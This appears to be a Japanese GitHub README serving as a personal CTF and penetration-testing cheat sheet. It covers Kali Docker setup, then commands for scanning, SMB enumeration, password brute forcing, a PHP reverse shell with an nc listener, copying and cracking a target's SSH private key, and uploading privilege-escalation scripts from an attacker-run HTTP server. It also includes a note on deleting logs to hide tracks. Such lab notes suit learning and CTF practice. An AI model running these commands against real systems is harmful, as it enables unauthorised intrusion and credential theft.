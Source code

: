 //////////////////////////////
// Settings
//////////////////////////////
:toc: macro
:toc-title: 目次
:toclevels: 5
:sectnums:
:sectanchors:
:sectlinks:
:idprefix:
:idseparator: -
ifndef::env-github[:icons: font]
ifdef::env-github[]
:status:
:outfilesuffix: .adoc
:caution-caption: :fire:
:important-caption: :exclamation:
:note-caption: :paperclip:
:tip-caption: :bulb:
:warning-caption: :warning:
endif::[]

//////////////////////////////
// Contents
//////////////////////////////
= CTF

[CAUTION]
====
KtokKawuは、自衛や検証/CTFのため、ハッキング技術を学習しています。 +
自分の管理外の端末や機器(一般に公開されているWebサイトや各種サーバやWi-Fiスポット、他人の端末や機器等)に対し、 +
非合法な目的で本リポジトリで公開しているツール類やテクニックを使用しないこと。 +
必ず自己責任の元、ローカル環境やCTF等で攻撃が許可されたサイトに対してのみ使用すること。 +
KtokKawuは、本リポジトリを利用する他のユーザや企業、団体等が起こした全ての事象に関して一切責任を負いません。
====

toc::[]

== Kali Dockerコンテナの作成

=== 初回の手順

[PowerShell/CMD]
----
# Kali Linuxの公式イメージDL
docker pull kalilinux/kali-rolling
docker images
# Dockerfileを使用する場合
docker image build -t kalilinux/kali-rolling:latest C:\path\to\Dockerfile
# コンテナ(初回)起動
docker run -it --name <C-NAME> kalilinux/kali-rolling
docker exec -it <CID> /bin/bash
# リポジトリの登録
echo "deb http://http.kali.org/kali kali-rolling main contrib non-free" > /etc/apt/sources.list \
&& echo "deb-src http://http.kali.org/kali kali-rolling main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-last-snapshot main contrib non-free" >> /etc/apt/sources.list \
&& echo "deb http://http.kali.org/kali kali-experimental main contrib non-free" >> /etc/apt/sources.list
# Kali Linuxのパッケージインストール
apt -y update && apt -y upgrade
apt install -y kali-linux-full
# 他ツール、ライブラリ
apt install -y bash-completion build-essential bzip2 colordiff colortail curl exiftool gdb git iputils-ping iputils-tracepath jq libjpeg-dev libssl-dev libxml2-dev libxslt1-dev ltrace mariadb-client net-tools nodejs npm openvpn postgresql python-dev rlwrap smbclient steghide strace telnet tor vim wget yarnpkg zip zlib1g-dev
curl https://raw.githubusercontent.com/Paradoxis/StegCracker/master/stegcracker > /usr/local/bin/stegcracker
chmod +x /usr/local/bin/stegcracker
# apt install -y bash-completion build-essential bzip2 colordiff colortail libjpeg-dev libssl-dev nikto nmblookup pip python-pybloomfiltermmap rpcclient
# Setup gdb-peda
git clone https://github.com/longld/peda.git ~/peda \
&& echo "source ~/peda/peda.py" >> ~/.gdbinit
# Setup nmap CVE script
# Option Usage: --script=vulscan/vulscan.nse www.example.com
git clone https://github.com/scipag/vulscan ~/scipag_vulscan \
&& ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
# Install and configure AutoRecon
/tools \
&& git clone --depth 1 https://github.com/Tib3rius/AutoRecon.git /tools/AutoRecon \
&& cd /tools/AutoRecon \
&& pip3 install -r requirements.txt \
&& ln -s /tools/AutoRecon/src/autorecon/autorecon.py /usr/local/bin/autorecon
# Get some scripts
git clone https://github.com/pentestmonkey/php-reverse-shell ~/prh \
&& git clone https://github.com/lucyoa/kernel-exploits ~/exploits/ksploits \
&& git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite ~/exploits/peass \
&& git clone https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack ~/exploits/unixploits \
&& git clone https://github.com/danielmiessler/SecLists /usr/share/seclists \
&& git clone https://github.com/andresriancho/w3af.git /opt/w3af \
/opt/w3af/w3af_console ; \
bash /tmp/w3af_dependency_install.sh ; \
echo 'export PATH=/opt/w3af:$PATH' >> /etc/profile
# Get Password list
mkdir ~/pwd-list \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/john.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/cain.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/conficker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/500-worst-passwords.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/twitter-banned.txt.bz2 \
# Kaliイメージの「/usr/share/wordlists/rockyou.txt」の方が新しい
# && wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpbb.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/myspace.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hotmail.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/faithwriters.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/elitehacker.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/hak5.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/alypaa.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-pastebay.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porn-unknown.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/tuscl.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/facebook-phished.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/carders.cc.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/singles.org.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/english.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/german.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/us_cities.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/porno.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/honeynet.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/file-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/fuzzing-strings.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/phpmyadmin-locations.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-extensions.txt.bz2 \
&& wget -P ~/pwd-list/ http://downloads.skullsecurity.org/passwords/web-mutations.txt.bz2 \
&& bzip2 -d ~/pwd-list/*.bz2
# コンテナ保存
docker stop <CID>
docker rename <CID> <C-NAME>
docker commit <CID> <REPO-NAME>:<TAG-NAME>
# コンテナ起動(ホスト側へポートフォワード)
# openvpnを利用するには、Linux capabilitiesのCAP_NET_ADMINを許可する必要があるため、「--cap-add NET_ADMIN」を追加
# 上記により、openvpn利用時の「ERROR: Cannot ioctl TUNSETIFF tun: Operation not permitted (errno=1)」を回避
# またmountを利用するには、Linux capabilitiesのCAP_SYS_ADMINを許可する必要があるため、「--cap-add SYS_ADMIN」を追加
docker images
docker run --cap-add NET_ADMIN  --cap-add SYS_ADMIN --name <C-NAME> -itd -p <HOST-PORT>:<C-PORT> <REPO-NAME>:<TAG-NAME>
docker ps -a
# 不要なコンテナ、イメージ削除
docker rm -f <CID>
docker rmi -f <IID>
----

=== 2回目以降のコンテナ利用

[PowerShell/CMD]
----
# コンテナ接続
docker exec -it <C-NAME> /bin/bash
# コンテナ開始/停止/再起動
docker stop/start/restart <C-NAME>
# コンテナ内からホストへファイルをコピー
docker cp <C-ID>:/file/path/within/container /host/path/target
# IP確認
docker inspect --format '{{ .NetworkSettings.IPAddress }}' <C-NAME>

# /bin/bash
# openvpn利用時の「ERROR: Cannot open TUN/TAP dev /dev/net/tun: No such file or directory (errno=2)」の回避
mkdir -p /dev/net
mknod /dev/net/tun c 10 200
# Try Hack MeへのOpen VPN接続
openvpn /etc/openvpn/[TryHackMeUserName].ovpn &
----
  
=== 注意事項

* Windows Firewallの受信規則のうち、パブリックの「com.docker.backend」が有効だと、 +
リバースシェルを張る時などのインバウンド通信が失敗してしまう。Linuxで構築する場合も同様。
* 「--cap-add」を利用する代わりに「--privileged」でもopenvpnのエラー(errno=1)を回避できるが、 +
プライベートDockerインスタンスが特権モードで実行されると、ホストプロセスのアクセスやエスカレーションを許してしまうため非推奨。
* dockerコンテナ側でopenvpnを張るとホストOS側のopenvpnが阻害されるため対策を考え中。。。★

== ハッキング技術メモ

=== ポートとOSSバージョンの確認

----
nmap -T5 --max-retries 2500 -sC -sV [TargetIP]
----

=== CVEのチェック

* nmap
+
----
git clone https://github.com/scipag/vulscan scipag_vulscan
ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan
nmap -sV -p [TargetPort] --script=vulscan/vulscan.nse www.example.com [TargetIP]
----
+
* searchsploit
+
----
searchsploit [word]     # wordExapmle: 「ProFTPd 1.3.5」、「Apache 2.4.18」
----

=== ディレクトリ調査

オプションを増やすほど重くなることに注意。

----
gobuster dir \                    # ディレクトリ/ファイルの総当たりモード
         -u http://[TargetIP]/ \
#         -e \                     # URL全体を表示
#         -k \                     # SSL証明書の検証をスキップ、CTF系ではHTTPSは少なそう
#         -o ./result_gobuster.txt
#         -s 200 \                 # 301,302,403,404
         -t 64 \                  # 同時スレッド数、デフォルトは40らしい
         -w [DirList] \
         -x html,txt \            # php
----

DirList

* /usr/share/wordlists/dirb/common.txt
* /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

=== ファイル調査

* Linux
+
----
find / -name "FileName" -type f
grep "FileContents" -rl /
find / -find / -type f -print | xargs grep 'FileContents'
# 「anonymous」ユーザや判明したユーザでログイン
ftp [TargetIP]
# ls -laやpwd、cdで調査
# get FILENAME
----
+
* Windows
+
----
rem 管理者のみdiskpartを使用可能
echo list volume | diskpart
dir /s /b | find "FileNameOrFileFormat"
findstr /s /i FileContents c:\*
----

=== Enumeration

==== enum4linux

----
enum4linux -a [Target
] | tee ./enum4linux.log
----

==== link:https://github.com/rebootuser/LinEnum[LinEnum]

----
# 攻撃者側
cd /var/tmp
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python3 -m http.server [MyHostPort]

# ターゲット側
cd /var/tmp
which wget
wget [MyHostIP]:[MyHostPort]/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
----

=== Steganography

----
exiftool nothing.jpg
binwalk -e nothing.jpg
foremost nothing.jpg
steghide extract -sf nothing.jpg -p [password]
steghide --info nothing.jpg
stegcracker any-name.jpeg /usr/share/wordlists/rockyou.txt
----

=== Crypto

==== Base64

----
echo -n "username:password" | base64
echo "dXNlcm5hbWU6cGFzc3dvcmQ=" | base64 -d
----

==== asciicode

----
python3
>>> c=[72,101,108,108,111,44,32,87,111,114,108,100,33]
>>> ''.join([chr(i) for i in c])
'Hello, World!'
----

=== ROT

単換字式暗号（シーザー暗号）の処理

----
alias rot13="tr 'A-Za-z' 'N-ZA-Mn-za-m'"
alias rot47="tr '\!-~' 'P-~\!-O'"
----

----
$ echo "Uryyb Jbeyq!" | rot13
Hello World!
----

=== SMB Attack

==== Tools

[cols="1,5"]
|===
|ツール名 |説明

|nmblookup
|NetBIOS名の検索に使用されるNetBIOS over TCP/IPクライアントを収集

|smbclient
|SMB共有ディレクトリにアクセスするftpのようなクライアント

|nmap
|ポートスキャナ with スクリプト

|rpcclient
|クライアント側のMS-RPC機能を実行するツール

|enum4linux
|さまざまなsmb関数を列挙

|wireshark
|「ntlmssp.ntlmv2_response」でフィルタリングしてNTLMv2のトラフィックからsmbの情報を取得可能
|===

==== チェックリスト

* ホスト名の確認
+
----
# -A オプション：look up by IP address
nmblookup -A [ip]
----
+
* 共有フォルダの一覧
+
----
# nmapによる共有フォルダ一覧の表示(-pオプションがあるとscriptが動かない場合有り)
nmap -T5 --script nfs-ls,nfs-statfs,nfs-showmount -p 445 [TargetIP]
# ホスト上の共有フォルダ一覧とアクセス権を表示
smbmap -H [ip/hostname] -R
# SMBからファイルを取得
smbmap -H [ip/hostname] -R --download '.\Anonymous\staff.txt'
# 資格情報を取得後に再実行し、新しいアクセス権を表示
smbmap -H [ip] -d [domain] -u [user] -p [password]
# nullログインをチェックするため、"exit"は現れる可能性のある全PW要求を処理する
# -L オプション：指定されたホストの共有のリストを取得します
echo exit | smbclient -L \\\\[ip]
# --script smb-enum-shares：特定のsmb列挙スクリプト
# -p 139,445：smbポートの指定
nmap --script smb-enum-shares -p 139,445 [ip]
----
+
* NULLセッションでの確認
+
----
# 資格情報無しで何ができるか確認
smbmap -H [ip/hostname]
# 本コマンドの後、RPCコマンドを入力してみる
# -U ""：NULLセッション
# -N オプション：PWD無し
rpcclient -U "" -N [ip]
# 共有フォルダへの接続試行、空PWDでも行ける可能性有り。
smbclient \\\\[ip]\\[share name]
----
+
* 脆弱性の確認
+
----
# --script smb-vuln*：全smb脆弱性スキャンスクリプトを実行
nmap --script smb-vuln* -p 139,445 [ip]
----
+
* SMB全体のスキャン
+
----
enum4linux -a [ip]
----
+
上記内容の確認で注目する内容は下記。
+
. nmblookup同様の出力
. nullセッションのチェック
. 共有フォルダのリスト
. ドメイン情報
. パスワードポリシー
. RIDサイクリング出力
* 手操作確認 +
smbのバージョンを取得するスクリプト
+
.smbver.sh
----
#!/bin/sh
# Author: rewardone
# Description:
#   Requires root or enough permissions to use tcpdump
#   Will listen for the first 7 packets of a null login and grab the SMB Version
# Notes:
#   Will sometimes not capture or will print multiple lines.
#   May need to run a second time for success.
# Usage:
#   smbver.sh [IP] (port) [Samba]
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'aUnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
----
+
上記スクリプトの結果が疑わしい時は、PCAPファイルから、smbバージョンを確認
+
----
# 例：Unix Samba 2.2.3a
check pcap
----

=== Bruteforce Attack

.Bruteforce tool list
[cols="2, 7a"]
|===
|ツール名 |サポートプロトコル

|Hydra
|TELNET, FTP, HTTP, HTTPS, HTTP-PROXY, SMB, SMBNT, MS-SQL, MYSQL, REXEC, irc, RSH, +
RLOGIN, CVS, SNMP, SMTP, SOCKS5, VNC, POP3, IMAP, NNTP, PCNFS, XMPP, ICQ, +
SAP/R3, LDAP2, LDAP3, Postgres, Teamspeak, Cisco auth, Cisco enable, AFP, Subversion/SVN, +
Firebird, LDAP2, Cisco AAA, Web form

|Medusa
|AFP, CVS, FTP, HTTP, IMAP, MS-SQL, MySQL, NetWare NCP, NNTP, PcAnywhere, POP3, +
PostgreSQL, REXEC, RLOGIN, RSH, SMBNT, SMTP-AUTH, SMTP-VRFY, SNMP, SSHv2, Subversion (SVN), +
Telnet, VMware Authentication Daemon (vmauthd), VNC, Generic Wrapper, Web Form

|Ncrack
|RDP, SSH, http(s), SMB, pop3(s), VNC, FTP, telnet
|===

==== hydra

* 効率的には、およそssh(2/s) < ftp(6/s) < http-basic(100/s)の速さ
* パスワードスプレー攻撃も可能 +
-l：uid固定、-L：uidリスト、-p：pwd固定、-P：pwdリスト

----
hydra -l [uname] \
      -P ~/pwd-list/[pwdtext] \
      [TargetIP] \
      [TargetProtocol] \
      -V \                                                          # PWDマイニング中にUID、PWDを表示
      -f \                                                          # 指定したPWDが見つかったら停止
# Web form
#     http-post-form \
#     "/path/to/login:uid=XXXXX&pwd=XXXXX&Login=Login:Login Failed" # "[Login Page]:[Request Body]:[Error Message]"
----

==== ncrack

* RDPサービスに関してはhydraより早いらしい

----
ncrack -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -T5 [TargetIP] \
       -p [TargetServicePort]
----

==== meduza

* 一番遅い

----
medusa -h [TargetIP] \
       -u [uname] \
       -P ~/pwd-list/[pwdtext] \
       -M [TragetService]
# Web Form
#      -M web-form \
#      -m FORM:"path/to/login" \
#      -m DENY-SIGNAL:"Example Access Denied" \
#      -m FORM-DATA:"post?uid=XXXXX&pwd=XXXXX&Login=Login"
----

=== Penetration

==== PHPリバースシェル

===== Scripts

https://github.com/pentestmonkey/php-reverse-shell

===== 手順

----
vim php-reverse-shell.php # change "$ip" value to [MyHostIP]
rlwrap nc -lvnp 1234
# Uploading PRS file & Web Access
----

==== RSAプライベートキーのクラック

----
scp [TargetUser]@[TargetIP]:/home/[TargetUser2]/.ssh/id_rsa /root/
/usr/share/john/ssh2john.py ./id_rsa > crack
john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt crack
john crack --show
chmod 600 id_rsa
----

=== 権限昇格

==== Scripts

* link:https://github.com/lucyoa/kernel-exploits[kernel-exploits by lucyoa]
* link:https://github.com/sleventyeleven/linuxprivchecker[Linuxprivchecker by slevenyeleven]
* link:https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite[PEASS by carlospolop]
* link:https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack[Unix-Privilege-Escalation-Exploits-Pack by Kabot]

==== Upload

----
# 攻撃者側
cd /var/tmp
wget [Script]
python3 -m http.server [MyHostPort]

# ターゲット側 
cd /var/tmp
wget http://[MyHostIP]:[MyHostPort]/[Script]
chmod +x [Script]
----

.権限の緩いディレクトリの例
----
/var/tmp
/dev/shm
/var/lock
/run/lock
----

==== link:https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite[PEASS]

===== linPEAS

----
# 攻撃者側
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh

# ターゲット側(アップロード後)
./linpeas.sh
----

===== winPEAS

★coming soon

==== https://github.com/sleventyeleven/linuxprivchecker[Linuxprivchecker]

Python 2.6以降またはargparserがインストールされているシステムの場合、次のオプションを利用できるらしい。


----
# 攻撃者側
wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py

# ターゲット側(アップロード後)
python linuxprivchecker.py
----

==== 攻撃・防御のコツ

* id_rsaファイルや、RSAプライベートキーに当たる内容がないかfindコマンドで探す
* 「sudo -l」にて、特権で使えるコマンドを列挙し、当該コマンドのうち特権昇格できる方法をlink:https://gtfobins.github.io[GTFOBins]で探す
* ターゲット側でスクリプトを実行する際は、使っているユーザ権限で自由にファイル授受できるディレクトリに移動するとよい。 +
-> 攻撃者が足跡をなるべく残さないために何をしている...？ + 
　 tor、串、over ssh、ログ削除、rootで行動、と他には何があるか？ +
　 ->別サーバへログをリダイレクトしたほうがいい、権限認証もしっかりして侵入させない
+
.RHEL系
|===
|ディレクトリ/ファイル名|形式
|/var/run/utmp|バイナリ
|/var/log|テキスト/バイナリ
|===
+
.Debian系
|===
|ディレクトリ名|形式
|/var/log|テキスト/バイナリ
|===
+
※ logの設定は、/etc/rsyslog.confや/etc/rsyslog.d/*.confを確認
+
* 秘密情報の取得
+
----
find /  -iname "*pwd*" -or -iname "*pass*" -or -iname "*secret*" -or -name "id_rsa" 2>/dev/null
----

== 情報元

----
# Docker
https://hub.docker.com/u/kalilinux
https://www.kali.org/docs/containers/official-kalilinux-docker-images/
http://www.tohoho-web.com/docker/index.html
https://qiita.com/wMETAw/items/34ba5c980e2a38e548db
http://docs.docker.jp/index.html
# General
https://kakyouim.hatenablog.com/entry/2020/04/17/182049
https://www.aldeid.com/wiki/Main_Page
# SMB Attack
https://medium.com/@arnavtripathy98/smb-enumeration-for-penetration-testing-e782a328bf1b
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
# Forensic tools
https://qiita.com/knqyf263/items/6ebf06e27be7c48aab2e
https://github.com/Va5c0/Steghide-Brute-Force-Tool
# Directory Search
https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/
# Bruteforce Attack
https://redteamtutorials.com/2018/10/25/hydra-brute-force-techniques/
https://ozuma.hatenablog.jp/entry/20130601/1370094859
# Penetration
https://github.com/pentestmonkey/php-reverse-shell
# Privilege escalation
https://github.com/lucyoa/kernel-exploits
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack
https://null-byte.wonderhowto.com/how-to/use-linenum-identify-potential-privilege-escalation-vectors-0197225/
https://kakyouim.hatenablog.com/entry/2020/03/14/031746
# Password lists
https://wiki.skullsecurity.org/Passwords
https://github.com/danielmiessler/SecLists/tree/master/Passwords
# Asscidoctor
https://github.com/asciidoctor/asciidoctor/blob/master/README-jp.adoc
https://asciidoctor.org/docs/user-manual/
https://asciidoctor.org/docs/asciidoc-recommended-practices/
# Linux Log
https://qiita.com/Yorinton/items/897c1ccd6797a7df7805
# Linux capabilities
https://man7.org/linux/man-pages/man7/capabilities.7.html
----
